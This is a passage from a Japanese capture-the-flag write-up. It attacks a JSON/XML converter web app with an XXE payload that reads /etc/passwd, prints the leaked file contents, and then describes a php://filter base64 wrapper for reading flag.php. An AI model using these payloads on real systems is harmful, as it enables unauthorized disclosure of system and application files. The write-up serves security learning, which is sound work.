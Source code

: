 ```html
          $('#json').val(data);
        });
      });
    </script>
  </body>
</html>
```

JSON と XML を相互に変換してくれる Web アプリケーションのようです。XML と聞いて思い出すのは XXE (XML External Entity) を使った攻撃です。[XXE攻撃 基本編 \| MBSD Blog](https://www.mbsd.jp/blog/20171130.html) を参考に適当なファイルを読んでみましょう。

以下のような XML を用意します。

```xml
<?xml version="1.0"?>
<!DOCTYPE name [
<!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<root>
  <neko>&xxe;</neko>
</root>
```

JSON から XML への変換ボタンを押すと、以下のような JSON が返ってきました。

```json
{
    "neko": "root:x:0:0:root:\/root:\/bin\/bash\ndaemon:x:1:1:daemon:\/usr\/sbin:\/usr\/sbin\/nologin\nbin:x:2:2:bin:\/bin:\/usr\/sbin\/nologin\nsys:x:3:3:sys:\/dev:\/usr\/sbin\/nologin\nsync:x:4:65534:sync:\/bin:\/bin\/sync\ngames:x:5:60:games:\/usr\/games:\/usr\/sbin\/nologin\nman:x:6:12:man:\/var\/cache\/man:\/usr\/sbin\/nologin\nlp:x:7:7:lp:\/var\/spool\/lpd:\/usr\/sbin\/nologin\nmail:x:8:8:mail:\/var\/mail:\/usr\/sbin\/nologin\nnews:x:9:9:news:\/var\/spool\/news:\/usr\/sbin\/nologin\nuucp:x:10:10:uucp:\/var\/spool\/uucp:\/usr\/sbin\/nologin\nproxy:x:13:13:proxy:\/bin:\/usr\/sbin\/nologin\nwww-data:x:33:33:www-data:\/var\/www:\/usr\/sbin\/nologin\nbackup:x:34:34:backup:\/var\/backups:\/usr\/sbin\/nologin\nlist:x:38:38:Mailing List Manager:\/var\/list:\/usr\/sbin\/nologin\nirc:x:39:39:ircd:\/var\/run\/ircd:\/usr\/sbin\/nologin\ngnats:x:41:41:Gnats Bug-Reporting System (admin):\/var\/lib\/gnats:\/usr\/sbin\/nologin\nnobody:x:65534:65534:nobody:\/nonexistent:\/usr\/sbin\/nologin\nsystemd-network:x:100:102:systemd Network Management,,,:\/run\/systemd\/netif:\/usr\/sbin\/nologin\nsystemd-resolve:x:101:103:systemd Resolver,,,:\/run\/systemd\/resolve:\/usr\/sbin\/nologin\nsyslog:x:102:106::\/home\/syslog:\/usr\/sbin\/nologin\nmessagebus:x:103:107::\/nonexistent:\/usr\/sbin\/nologin\n_apt:x:104:65534::\/nonexistent:\/usr\/sbin\/nologin\nlxd:x:105:65534::\/var\/lib\/lxd\/:\/bin\/false\nuuidd:x:106:110::\/run\/uuidd:\/usr\/sbin\/nologin\ndnsmasq:x:107:65534:dnsmasq,,,:\/var\/lib\/misc:\/usr\/sbin\/nologin\nlandscape:x:108:112::\/var\/lib\/landscape:\/usr\/sbin\/nologin\nsshd:x:109:65534::\/run\/sshd:\/usr\/sbin\/nologin\npollinate:x:110:1::\/var\/cache\/pollinate:\/bin\/false\n_chrony:x:111:115:Chrony daemon,,,:\/var\/lib\/chrony:\/usr\/sbin\/nologin\nubuntu:x:1000:1000:Ubuntu:\/home\/ubuntu:\/bin\/bash\ntw:x:1001:1002::\/home\/tw:\/bin\/bash\ngoogle-fluentd:x:112:116::\/home\/google-fluentd:\/usr\/sbin\/nologin\n"
}
```

`/etc/passwd` が読めました。フラグの場所がわかりませんが、`http://(省略)/flag.php` が 200 を返したのでこのファイルを読めばよいのでしょう。`file:///etc/passwd` を `php://filter/convert.base64-encode/resource=flag.php` に変えてもう一度 JSON から XML への変換ボタンを押すと、以下のような JSON が返ってきました。
